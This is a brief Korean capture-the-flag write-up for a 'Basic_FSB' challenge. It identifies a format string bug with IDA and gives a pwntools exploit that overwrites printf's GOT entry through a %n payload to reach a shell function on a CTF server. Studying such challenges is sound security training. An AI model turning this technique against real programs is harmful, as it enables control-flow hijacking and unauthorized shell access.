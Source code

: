 # Basic_FSB

![](1.PNG)   
IDA로 분석해보면 vuln 함수를 보면 FSB 취약점이 존재한다.   
<br/>

![](2.PNG)   
또한 shell을 획득할 수 있는 flag 함수도 존재한다.   
<br/>

![](3.PNG)   
간단한 FSB를 발생시켜보면 2번째 %x에서 첫 번째 인자 AAAA를 참조하는 것을 알 수 있다.   
이를 참고해서 exploit 코드를 작성하면된다.
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3002)
e = ELF('./basic_fsb')

print_got = e.got['printf']

payload = ''
payload += p32(print_got)
payload += "%134514096x%n"

p.recvuntil('input : ')
p.send(payload)
p.interactive()

```
